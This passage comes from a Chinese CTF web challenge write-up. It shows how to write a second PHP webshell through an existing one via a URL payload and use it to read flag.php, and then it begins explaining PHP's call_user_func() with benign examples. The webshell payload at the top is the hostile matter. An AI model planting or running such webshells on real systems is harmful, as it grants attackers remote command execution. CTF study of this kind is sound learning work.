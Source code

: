 ```
# 虽然上面的webshell可以写入并执行但是没有回现，所以在这个webshell下再新建一个webshell 2.php
/1.php?ab=echo%20%27<?php%20system($_GET[cmd]);%27>2.php
# 在webshell 2.php中执行命令
/2.php?cmd=cat%20flag.php
```

![web102flag](.\image_php\web102flag.png)

### 回调函数call_user_func()

> 在 PHP 中，`call_user_func()` 函数用于调用一个回调函数，这个回调函数可以是一个简单的函数名、一个对象加方法的数组，或者是一个闭包。`call_user_func()` 接受一个回调函数作为第一个参数，后面跟着该回调函数所需的参数。
>
> 具体来说，`$str = call_user_func($v1, $s);` 这行代码的含义如下：
>
> - `$v1` 是一个回调函数，可以是函数名的字符串，也可以是包含对象和方法的数组，或者是可调用的变量（比如闭包）。
> - `$s` 是传递给回调函数 `$v1` 的参数。
> - `call_user_func($v1, $s)` 调用 `$v1` 指定的回调函数，并将 `$s` 作为参数传递给这个函数。
> - 调用的结果被赋值给变量 `$str`。
>
> ### 示例 1：使用函数名作为回调
>
> php
>
> ```php
> $str = call_user_func('strlen', "Hello World");
> echo $str; // 输出：11
> ```
>
> 这里，`strlen` 是一个内置的 PHP 函数，用于计算字符串的长度，`"Hello World"` 是传递给 `strlen` 函数的参数。
>
> ### 示例 2：使用对象和方法作为回调
>
> php
>
> ```php
> class Example {
>     public function sayHello($name) {
>         return "Hello, " . $name;
>     }
> }
> 
> $obj = new Example();